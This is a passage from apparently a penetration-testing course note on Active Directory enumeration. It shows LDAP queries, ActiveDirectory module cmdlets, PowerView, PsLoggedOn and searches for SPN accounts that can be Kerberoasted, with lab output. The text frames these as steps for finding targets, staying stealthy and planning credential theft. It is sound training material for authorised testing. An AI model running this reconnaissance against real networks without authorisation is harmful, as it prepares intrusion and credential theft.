LDAP://DC1.corp.com/CN=Sales Department,DC=corp,DC=com                                 {usnchanged, distinguishedname, grouptype, whencreated...}
LDAP://DC1.corp.com/CN=Management Department,DC=corp,DC=com                            {usnchanged, distinguishedname, grouptype, whencreated...}
LDAP://DC1.corp.com/CN=Development Department,DC=corp,DC=com                           {usnchanged, distinguishedname, grouptype, whencreated...}
LDAP://DC1.corp.com/CN=Debug,CN=Users,DC=corp,DC=com                                   {usnchanged, distinguishedname, grouptype, whencreated...}
```

Your script enumerates more groups than `net.exe` including `Print Operators`, `IIS_IUSRS`, and others. This is because it enumerates all AD objects including `Domain Local` groups.

To enumerate every group available in the domain and display the user members, you can pipe the output into a new variable and use a foreach loop that will print each property for a group. This allows you to select specific attributes you are interested in.

```powershell
PS C:\Users\stephanie\Desktop> foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
$group.properties | select {$_.cn}, {$_.member}
}
```

Since the output can be somewhat difficult to read, once again search for the groups, but this time specify the `Sales Department` in the query and pipe it into a variable in your PowerShell command line:

```powershell
PS C:\Users\stephanie> $sales = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Sales Department))"
```

Now that you only have one object in your variable, you can simply print the `member` attribute directly:

```powershell
PS C:\Users\stephanie\Desktop> $sales.properties.member
CN=Development Department,DC=corp,DC=com
CN=pete,CN=Users,DC=corp,DC=com
CN=stephanie,CN=Users,DC=corp,DC=com
PS C:\Users\stephanie\Desktop>
```

The `net.exe` tool missed this because it only lists user objects, not group objects. In addition, `net.exe` cannot display specific attribues. This emphasizes the benefit of custom tools.

### ActiveDirectory PowerShell Module

... is a group of PowerShell cmdlets for administering an AD environment from the command line. It consists of 147 different cmdlets (_now probably more_).

Before you can utilize it, you have to make sure it is imported first. The Get-Module cmdlet, which is part of the Microsoft.PowerShell.Core module, will list all available modules, their version, and potential commands for use. This is a great way to see if anything like Git or custom administrator scripts are installed. If the module is not loaded, run Import-Module ActiveDirectory to load it for use.

```powershell
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...
```

You'll see that the ActiveDirectory module is not yet imported.

```powershell
PS C:\htb> Import-Module ActiveDirectory
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...  
```

#### Domain Info

Now that your modules are loaded you can begin enumerating some basic information about the domain with the Get-ADDomain cmdlet.

```powershell
PS C:\htb> Get-ADDomain

AllowedDNSSuffixes                 : {}
ChildDomains                       : {LOGISTICS.INLANEFREIGHT.LOCAL}
ComputersContainer                 : CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
DeletedObjectsContainer            : CN=Deleted Objects,DC=INLANEFREIGHT,DC=LOCAL
DistinguishedName                  : DC=INLANEFREIGHT,DC=LOCAL
DNSRoot                            : INLANEFREIGHT.LOCAL
DomainControllersContainer         : OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
DomainMode                         : Windows2016Domain
DomainSID                          : S-1-5-21-3842939050-3880317879-2865463114
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=INLANEFREIGHT,DC=LOCAL
Forest                             : INLANEFREIGHT.LOCAL
InfrastructureMaster               : ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
LastLogonReplicationInterval       :
LinkedGroupPolicyObjects           : {cn={DDBB8574-E94E-4525-8C9D-ABABE31223D0},cn=policies,cn=system,DC=INLANEFREIGHT,
                                     DC=LOCAL, CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=INLAN
                                     EFREIGHT,DC=LOCAL}
LostAndFoundContainer              : CN=LostAndFound,DC=INLANEFREIGHT,DC=LOCAL
ManagedBy                          :
Name                               : INLANEFREIGHT
NetBIOSName                        : INLANEFREIGHT
ObjectClass                        : domainDNS
ObjectGUID                         : 71e4ecd1-a9f6-4f55-8a0b-e8c398fb547a
ParentDomain                       :
PDCEmulator                        : ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
PublicKeyRequiredPasswordRolling   : True
QuotasContainer                    : CN=NTDS Quotas,DC=INLANEFREIGHT,DC=LOCAL
ReadOnlyReplicaDirectoryServers    : {}
ReplicaDirectoryServers            : {ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL}
RIDMaster                          : ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
SubordinateReferences              : {DC=LOGISTICS,DC=INLANEFREIGHT,DC=LOCAL,
                                     DC=ForestDnsZones,DC=INLANEFREIGHT,DC=LOCAL,
                                     DC=DomainDnsZones,DC=INLANEFREIGHT,DC=LOCAL,
                                     CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL}
SystemsContainer                   : CN=System,DC=INLANEFREIGHT,DC=LOCAL
UsersContainer                     : CN=Users,DC=INLANEFREIGHT,DC=LOCAL
```

This will print out helpful information like the domain SID, domain functionality level, any child domains, and more.

#### Get-ADUser

Next, you'll use the Get-ADUser cmdlet. You will be filtering for accounts with the SerivcePrincipalName property populated. This will get you a listing of accounts that may be susceptible to a Kerberoasting attack.

```powershell
PS C:\htb> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

DistinguishedName    : CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled              : True
GivenName            : Sharepoint
Name                 : adfs
ObjectClass          : user
ObjectGUID           : 49b53bea-4bc4-4a68-b694-b806d9809e95
SamAccountName       : adfs
ServicePrincipalName : {adfsconnect/azure01.inlanefreight.local}
SID                  : S-1-5-21-3842939050-3880317879-2865463114-5244
Surname              : Admin
UserPrincipalName    :

DistinguishedName    : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled              : True
GivenName            : Jessica
Name                 : BACKUPAGENT
ObjectClass          : user
ObjectGUID           : 2ec53e98-3a64-4706-be23-1d824ff61bed
SamAccountName       : backupagent
ServicePrincipalName : {backupjob/veam001.inlanefreight.local}
SID                  : S-1-5-21-3842939050-3880317879-2865463114-5220
Surname              : Systemmailbox 8Cc370d3-822A-4Ab8-A926-Bb94bd0641a9
UserPrincipalName    :

<SNIP>
```

#### Checking for Trust Relationships

Another interesting check you can run utilizing the ActiveDirectory module, would be to verify domain trust relationships using the Get-ADtrust cmdlet.

```powershell
PS C:\htb> Get-ADTrust -Filter *

Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=LOGISTICS.INLANEFREIGHT.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ForestTransitive        : False
IntraForest             : True
IsTreeParent            : False
IsTreeRoot              : False
Name                    : LOGISTICS.INLANEFREIGHT.LOCAL
ObjectClass             : trustedDomain
ObjectGUID              : f48a1169-2e58-42c1-ba32-a6ccb10057ec
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=INLANEFREIGHT,DC=LOCAL
Target                  : LOGISTICS.INLANEFREIGHT.LOCAL
TGTDelegation           : False
TrustAttributes         : 32
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False

Direction               : BiDirectional
DisallowTransivity      : False
DistinguishedName       : CN=FREIGHTLOGISTICS.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ForestTransitive        : True
IntraForest             : False
IsTreeParent            : False
IsTreeRoot              : False
Name                    : FREIGHTLOGISTICS.LOCAL
ObjectClass             : trustedDomain
ObjectGUID              : 1597717f-89b7-49b8-9cd9-0801d52475ca
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source                  : DC=INLANEFREIGHT,DC=LOCAL
Target                  : FREIGHTLOGISTICS.LOCAL
TGTDelegation           : False
TrustAttributes         : 8
TrustedPolicy           :
TrustingPolicy          :
TrustType               : Uplevel
UplevelOnly             : False
UsesAESKeys             : False
UsesRC4Encryption       : False
```

This cmdlet will print out any trust relationship the domain has. You can determine if they are trusts within your forest or with domains in other forests, the type of trust, the direction of the trust, and the name of the domain the relationship is with. This will be useful later on when looking to take advantage of child-to-parent trust relationships and attacking across forest trusts.

#### Group Enum

Next, you can gather AD group information using the Get-ADGroup cmdlet.

```powershell
PS C:\htb> Get-ADGroup -Filter * | select name

name
----
Administrators
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
Access Control Assistance Operators
Remote Management Users
Storage Replica Administrators
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Cert Publishers
Domain Admins

<SNIP>
```

You can take the results and feed interesting names back into the cmdlet to get more detailed information about a particular group like so:

```powershell
PS C:\htb> Get-ADGroup -Identity "Backup Operators"

DistinguishedName : CN=Backup Operators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL
GroupCategory     : Security
GroupScope        : DomainLocal
Name              : Backup Operators
ObjectClass       : group
ObjectGUID        : 6276d85d-9c39-4b7c-8449-cad37e8abc38
SamAccountName    : Backup Operators
SID               : S-1-5-32-551
```

#### Group Membership

Now that you know more about the group, get a member listing using the Get-ADGroupMember cmdlet.

```powershell
PS C:\htb> Get-ADGroupMember -Identity "Backup Operators"

distinguishedName : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
name              : BACKUPAGENT
objectClass       : user
objectGUID        : 2ec53e98-3a64-4706-be23-1d824ff61bed
SamAccountName    : backupagent
SID               : S-1-5-21-3842939050-3880317879-2865463114-5220
```

You can see that one account, backupagent, belongs to this group. It is worth noting this down becaue if you can take over this service account through some attack, you could use its membership in the Backup Operators group to take over the domain. You can perform this process for the other groups to fully understand the domain membership setup.

Utilizing the ActiveDirectory module on a host can be a stealthier way of performing actions than dropping a tool onto a host or loading it into memory and attempting to use it. This way, your actions could potentially blend in more.

### [PowerView](https://powersploit.readthedocs.io/en/latest/Recon/)

... is a tool written in PowerShell to help you gain situational awareness within an AD environment. Much like BloodHound, it provides a way to identify where users are logged in on a network, enumerate domain information such as users, computers, groups, ACLs, trusts, hunt for file shares and passwords, perform Kerberoasting, and more. It is a highly versatile tool that can provide you with great insight into the security posture of your client's domain. It requires more manual work to determine misconfigurations and relationships within the domain than BloodHound but, when used right, can help you to identify subtle misconfigs.

For commands, read [this](https://powersploit.readthedocs.io/en/latest/Recon/).

#### Domain Information

Basic information about the domain:

```powershell
PS C:\Tools> Get-NetDomain

Forest                  : corp.com
DomainControllers       : {DC1.corp.com}
Children                : {}
DomainMode              : Unknown
DomainModeLevel         : 7
Parent                  :
PdcRoleOwner            : DC1.corp.com
RidRoleOwner            : DC1.corp.com
InfrastructureRoleOwner : DC1.corp.com
Name                    : corp.com
```

#### Domain User Information

The Get-DomainUser function will provide you with information on all users or specific users you specify.

All users:

```powershell
PS C:\Tools> Get-NetUser

logoncount             : 113
iscriticalsystemobject : True
description            : Built-in account for administering the computer/domain
distinguishedname      : CN=Administrator,CN=Users,DC=corp,DC=com
objectclass            : {top, person, organizationalPerson, user}
lastlogontimestamp     : 9/13/2022 1:03:47 AM
name                   : Administrator
objectsid              : S-1-5-21-1987370270-658905905-1781884369-500
samaccountname         : Administrator
admincount             : 1
codepage               : 0
samaccounttype         : USER_OBJECT
accountexpires         : NEVER
cn                     : Administrator
whenchanged            : 9/13/2022 8:03:47 AM
instancetype           : 4
usncreated             : 8196
objectguid             : e5591000-080d-44c4-89c8-b06574a14d85
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Person,CN=Schema,CN=Configuration,DC=corp,DC=com
dscorepropagationdata  : {9/2/2022 11:25:58 PM, 9/2/2022 11:25:58 PM, 9/2/2022 11:10:49 PM, 1/1/1601 6:12:16 PM}
memberof               : {CN=Group Policy Creator Owners,CN=Users,DC=corp,DC=com, CN=Domain Admins,CN=Users,DC=corp,DC=com, CN=Enterprise
                         Admins,CN=Users,DC=corp,DC=com, CN=Schema Admins,CN=Users,DC=corp,DC=com...}
lastlogon              : 9/14/2022 2:37:15 AM
...
```

Specific user:

```powershell
PS C:\htb> Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol

name                 : Matthew Morgan
samaccountname       : mmorgan
description          :
memberof             : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                       Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                       Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                       Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
whencreated          : 10/27/2021 5:37:06 PM
pwdlastset           : 11/18/2021 10:02:57 AM
lastlogontimestamp   : 2/27/2022 6:34:25 PM
accountexpires       : NEVER
admincount           : 1
userprincipalname    : mmorgan@inlanefreight.local
serviceprincipalname :
mail                 :
useraccountcontrol   : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

#### Group Information

All groups:

```powershell
PS C:\Tools> Get-NetGroup | select cn

cn
--
...
Key Admins
Enterprise Key Admins
DnsAdmins
DnsUpdateProxy
Sales Department
Management Department
Development Department
Debug
```

Specific group:

```powershell
PS C:\Tools> Get-NetGroup "Sales Department" | select member

member
------
{CN=Development Department,DC=corp,DC=com, CN=pete,CN=Users,DC=corp,DC=com, CN=stephanie,CN=Users,DC=corp,DC=com}
```

#### Recursive Group Membership

Now enumerate some domain group information. You can use the Get-DomainGroupMember function to retrieve group-specific information. Adding the ```-Recurse``` switch tells PowerView that if it finds any groups that are part of the target group to list out the members of those groups. For example, the output below shows that the Secadmins group is part of the Domain Admins group through nested group membership. In this case, you will be able to view all of the members of that group who inherit Domain Admin rights via their group membership.

```powershell
PS C:\htb>  Get-DomainGroupMember -Identity "Domain Admins" -Recurse

GroupDomain             : INLANEFREIGHT.LOCAL
GroupName               : Domain Admins
GroupDistinguishedName  : CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
MemberDomain            : INLANEFREIGHT.LOCAL
MemberName              : svc_qualys
MemberDistinguishedName : CN=svc_qualys,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberObjectClass       : user
MemberSID               : S-1-5-21-3842939050-3880317879-2865463114-5613

GroupDomain             : INLANEFREIGHT.LOCAL
GroupName               : Domain Admins
GroupDistinguishedName  : CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
MemberDomain            : INLANEFREIGHT.LOCAL
MemberName              : sp-admin
MemberDistinguishedName : CN=Sharepoint Admin,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberObjectClass       : user
MemberSID               : S-1-5-21-3842939050-3880317879-2865463114-5228

GroupDomain             : INLANEFREIGHT.LOCAL
GroupName               : Secadmins
GroupDistinguishedName  : CN=Secadmins,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberDomain            : INLANEFREIGHT.LOCAL
MemberName              : spong1990
MemberDistinguishedName : CN=Maggie
                          Jablonski,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberObjectClass       : user
MemberSID               : S-1-5-21-3842939050-3880317879-2865463114-1965

<SNIP>  
```

Above you performed a recursive look at the Domain Admins group to list its members. Now you know who to target for potential elevation of privileges.

#### OS Information

```powershell
PS C:\Tools> Get-NetComputer

pwdlastset                    : 10/2/2022 10:19:40 PM
logoncount                    : 319
msds-generationid             : {89, 27, 90, 188...}
serverreferencebl             : CN=DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=corp,DC=com
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=DC1,OU=Domain Controllers,DC=corp,DC=com
objectclass                   : {top, person, organizationalPerson, user...}
lastlogontimestamp            : 10/13/2022 11:37:06 AM
name                          : DC1
objectsid                     : S-1-5-21-1987370270-658905905-1781884369-1000
samaccountname                : DC1$
localpolicyflags              : 0
codepage                      : 0
samaccounttype                : MACHINE_ACCOUNT
whenchanged                   : 10/13/2022 6:37:06 PM
accountexpires                : NEVER
countrycode                   : 0
operatingsystem               : Windows Server 2022 Standard
instancetype                  : 4
msdfsr-computerreferencebl    : CN=DC1,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=corp,DC=com
objectguid                    : 8db9e06d-068f-41bc-945d-221622bca952
operatingsystemversion        : 10.0 (20348)
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Computer,CN=Schema,CN=Configuration,DC=corp,DC=com
dscorepropagationdata         : {9/2/2022 11:10:48 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname          : {TERMSRV/DC1, TERMSRV/DC1.corp.com, Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC1.corp.com, ldap/DC1.corp.com/ForestDnsZones.corp.com...}
usncreated                    : 12293
lastlogon                     : 10/18/2022 3:37:56 AM
badpwdcount                   : 0
cn                            : DC1
useraccountcontrol            : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
whencreated                   : 9/2/2022 11:10:48 PM
primarygroupid                : 516
iscriticalsystemobject        : True
msds-supportedencryptiontypes : 28
usnchanged                    : 178663
ridsetreferences              : CN=RID Set,CN=DC1,OU=Domain Controllers,DC=corp,DC=com
dnshostname                   : DC1.corp.com
```

OS and hostname only:

```powershell
PS C:\Tools> Get-NetComputer | select operatingsystem,dnshostname

operatingsystem              dnshostname
---------------              -----------
Windows Server 2022 Standard DC1.corp.com
Windows Server 2022 Standard web04.corp.com
Windows Server 2022 Standard FILES04.corp.com
Windows 11 Pro               client74.corp.com
Windows 11 Pro               client75.corp.com
Windows 10 Pro               CLIENT76.corp.com
```

The output reveals a total of six computers in this domain, three of which are servers, including one DC.

#### Trust Enumeration

```powershell
PS C:\htb> Get-DomainTrustMapping

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : LOGISTICS.INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 6:20:22 PM
WhenChanged     : 2/26/2022 11:55:55 PM

SourceName      : INLANEFREIGHT.LOCAL
TargetName      : FREIGHTLOGISTICS.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 8:07:09 PM
WhenChanged     : 2/27/2022 12:02:39 AM

SourceName      : LOGISTICS.INLANEFREIGHT.LOCAL
TargetName      : INLANEFREIGHT.LOCAL
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection  : Bidirectional
WhenCreated     : 11/1/2021 6:20:22 PM
WhenChanged     : 2/26/2022 11:55:55 PM 
```

#### Permissions and Logged On Users

During an AD assessment, you may not always want to escalate your privileges right away.

Instead, it's important to establish a good foothold, and your goal at the very least should be to maintain your access. If you are able to compromise other users that have the same permissions as the user, you already have access to, this allows you to maintain your foothold. If, for example, the password is reset for the user you originally obtained access to, or the system administrators notice suspicious activity and disable the account, you would still have access to the domain via other users you compromised.

When the time comes to escalate your privileges, you don't necessarily need to immediately escalate to Domain Admins because there may be other accounts that have higher privileges than a regular domain user, even if they aren't necessarily a part of the Domain Admins group. Service Accounts are a good example of this. Although they may not always have the highest privilege possible, they may have more permissions than a regular domain user, such as local administrator privileges on specific servers.

In addition, an organization's most sensitive and important data may be stored in locations that do not require domain administrator privileges, such as a database or a file server. This means that obtaining domain administrator privileges should not always be the end goal during an assessment since you may be able to reach the "crown jewels" for an organization via other users in the domain.

PowerView's `Find-LocalAdminAccess` scans the network to determine if your current user has administrative permissions on any computers in the domain. The command relies on the `OpenServiceW`function, which will connect to the Service Control Manager on the target machines. The SCM essentially maintains a database of installed services and drivers on Windows computers. PowerView will attempt to open this database with the `SC_MANAGER_ALL_ACCESS` access right, which require administrative privileges, and if the connection is successful, PowerView will deem that your current user has administrative privileges on the target machine.

```powershell
PS C:\Tools> Find-LocalAdminAccess
client74.corp.com
```

This reveals that `stephanie` has administrative privileges on CLIENT74.

Continue by trying to visualize how computers and users are connected. The first step in this process will be to obtain information such as which user is logged in to which computer.

Historically, the two most reliable Windows APIs that could help you achieve these goals are [NetWkstaUserEnum](https://learn.microsoft.com/en-us/windows/win32/api/lmwksta/nf-lmwksta-netwkstauserenum) and [NetSessionEnum](https://learn.microsoft.com/en-us/windows/win32/api/lmshare/nf-lmshare-netsessionenum). The former requires administrative privileges, while the latter does not. However, Windows has undergone changes over the last couple of years, possibly making the discovery of logged in user enumeration more difficult.

PowerVies's `Get-NetSession` command uses the `NetWkstaUserEnum` and `NetSessionEnum` APIs under the hood.

```powershell
PS C:\Tools> Get-NetSession -ComputerName files04

PS C:\Tools> Get-NetSession -ComputerName web04
PS C:\Tools>
```

A simple explanation would be that there are no users logged in on the machines. However, to make sure you aren't receiving any error messages, add the `-Verbose` flag:

```powershell
PS C:\Tools> Get-NetSession -ComputerName files04 -Verbose
VERBOSE: [Get-NetSession] Error: Access is denied

PS C:\Tools> Get-NetSession -ComputerName web04 -Verbose
VERBOSE: [Get-NetSession] Error: Access is denied
```

Unfortunately, it appeats that `NetSessionEnum` does not work in this case and returns an "Access is denied" error message. This most likely means that you are not allowed to run the query, and based on the error message, it may have someting to do with privileges.

Since you may have administrative privileges on CLIENT74 with stephanie, run `Get-NetSession` against that machine and inspect the output there as well.

```powershell
PS C:\Tools> Get-NetSession -ComputerName client74

CName        : \\192.168.50.75
UserName     : stephanie
Time         : 8
IdleTime     : 0
ComputerName : client74
```

You did receive some more information this time. However, looking closer at the output, the IP address in `CName` does not match the IP address for CLIENT74. In fact, it matches the IP address for your current machine, which is CLIENT75. Since you haven't spawned any sessions to CLIENT74, something appears to be off in this case as well.

According to the documentation for NetSessionEnum, there are five possible query levels: 0,1, 2, 10, 502. Level 0 only returns the name of the computer establishing the session. Levels 1 and 2 return more information but require administrative privileges.

This leaves you with levels 10 and 502. Both should return information such as the name of the computer and name of the user establishing the connection. By default, PowerView uses query level 10 with `NetSessionEnum`, which should give you the information you are interested in.

The permissions required to enumerate sessions with `NetSessionEnum` are defined in the `SrvsvcSessionInfo` registry key, which is located in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity` hive.

In order to view the permissions, you'll use the PowerShell Get-Acl cmdlet.

```powershell
PS C:\Tools> Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl

Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\
Owner  : NT AUTHORITY\SYSTEM
Group  : NT AUTHORITY\SYSTEM
Access : BUILTIN\Users Allow  ReadKey
         BUILTIN\Administrators Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         CREATOR OWNER Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  ReadKey
```

The output reveals the groups and users have either the `FullControl` or `ReadKey` , meaning they can all read the `SrvsvcSessionInfo` key itself.

However, the BUILTIN group, NT AUTHORITY group, CREATER OWNER and APPLICATION PACKAGE AUTHORITY are defined by the system, and do not allow `NetSessionEnum` to enumerate this registry key from a remote standpoint.

The long string in the end of the output is, according to [Microsoft's documentation](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/sids-not-resolve-into-friendly-names), a capability SID.

A capability SID is an unforgeable token of authority that grants a Windows component or a Universal Windows Application access to various resources. However, it will not give you remote access to the registry key of interest.

In older Windows versions, Authenticated Users were allowed to access the registry hive and obtain information from the `SrvsvcSessionInfo` key. However, following the least privilege principle, regular domain users should not be able to acquire this information within the domain, which is likely part of the reason the permissions for the registry hive changed as well. In this case, due to permissions, you can be certain that `NetSessionEnum`will not be able to obtain this type of information on default windows 11.

Get a better sense of the OS versions of use. You can do this with `Net-GetComputer`, this time including the `operatingsystemversion` attribute:

```powershell
PS C:\Tools> Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

dnshostname       operatingsystem              operatingsystemversion
-----------       ---------------              ----------------------
DC1.corp.com      Windows Server 2022 Standard 10.0 (20348)
web04.corp.com    Windows Server 2022 Standard 10.0 (20348)
FILES04.corp.com  Windows Server 2022 Standard 10.0 (20348)
client74.corp.com Windows 11 Pro               10.0 (22000)
client75.corp.com Windows 11 Pro               10.0 (22000)
CLIENT76.corp.com Windows 10 Pro               10.0 (16299)
```

Windows 10 is the oldest OS in the environment, and based on the output above, it runs version 16299, otherwise known as [build 1709](https://learn.microsoft.com/en-us/windows/uwp/whats-new/windows-10-build-16299).

While the documentation from Microsoft is not clear when they made a change to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity` registry hive, it appears to be around the release of this exact build. It also seems to affect all Windows Server OS since Windows Server 2019 build 1809. This creates an issue for you since you won't be able to use PowerView to build the domain map you had in mind.

Even though `NetSessionEnum` does not work in this case, you should keep it in your toolkit since it's not uncommon to find older systems in real-world environments.

Fortunately There are other tools you can use, such as the [PsLoggedOn](https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon) application from the Sysinternals Suite. The documentation states that PsLoggedOn will enumerate the registry keys under `HKEY_USERS` to retrieve the security identifiers of logged-in users and convert the SIDs to usernames. PsLoggedOn will also use the `NetSessionEnum` API to see who is loggd on to the computer via resource shares.

One limitation, however, is that PsLoggedOn relies on the Remote Registry service to scan the associated key. The Remote Registry service has not been enabled by default on Windows workstations since Windows 8, but system administrators may enable it for various administrative tasks, for backwards compatibility, or for installing monitoring/deployment tools, scripts, agents, etc.

It is also enabled by default on later Windows Server OS such as Server 2012 R2, 2016 (1607), 2019 (1809), and Server 2022 (21H2). If it is enabled, the service will stop after ten minutes of inactivity to save resources, but it will re-enable once you connect with PsLoggedOn.

Running PsLoggedOn:

```powershell
PS C:\Tools\PSTools> .\PsLoggedon.exe \\files04

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\jeff
Unable to query resource logons
```

In this case, you discover that jeff is logged in on FILES04 with his domain user account. This is great information, which suggests another potential attack vector.

```powershell
PS C:\Tools\PSTools> .\PsLoggedon.exe \\web04

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

No one is logged on locally.
Unable to query resource logons
```

According to the output, there are no users logged in on WEB04. This may be a false positive since you cannot know for sure that the Remote Registry Service is running, but you didn't receive any error messages, which suggests the output is accurate.

As you discovered earlier, it appears that you have administrative privileges on CLIENT74 via stephanie, so this is a machine of high interest, and you should enumerate possible sessions there as well.

```powershell
PS C:\Tools\PSTools> .\PsLoggedon.exe \\client74

PsLoggedon v1.35 - See who's logged on
Copyright (C) 2000-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Users logged on locally:
     <unknown time>             CORP\jeffadmin

Users logged on via resource shares:
     10/5/2022 1:33:32 AM       CORP\stephanie
```

It appears that jeffadmin has an open session on CLIENT74, and the output reveals some very interesting pieces of information. If you enumeration is accurate and you in fact have admininstrative privileges on CLIENT74, you should be able to log in there and possibly steal jeffadmin's creds. It would be very tempting to try this immediately, but it's best practice to stay the course and continue your enumeration. After all, your goal is not to get a quick win, but rather to provide a thorough analysis.

Another interesting thing to note in the output is that stephanie is logged on via resource shares. This is shown because PsLoggedOn also uses the `NetSessionEnum` API, which in this case requires a logon to work. This may also explain why you saw a logon earlier for stephanie while using PowerView.

#### Finding Users with SPN set

Now you can check for users with the SPN attribute set, which indicates that the account may be subjected to a Kerberoasting attack.

```powershell
PS C:\htb> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName

serviceprincipalname                          samaccountname
--------------------                          --------------
adfsconnect/azure01.inlanefreight.local       adfs
backupjob/veam001.inlanefreight.local         backupagent
d0wngrade/kerberoast.inlanefreight.local      d0wngrade
kadmin/changepw                               krbtgt
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 sqldev
MSSQLSvc/SPSJDB.inlanefreight.local:1433      sqlprod
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351 sqlqa
sts/inlanefreight.local                       solarwindsmonitor
testspn/kerberoast.inlanefreight.local        testspn
testspn2/kerberoast.inlanefreight.local       testspn2
```

### SharpView

Many of the same functions supported by PowerView can be used with SharpView. You can type a method name with ```-Help``` to get an argument list.

```powershell
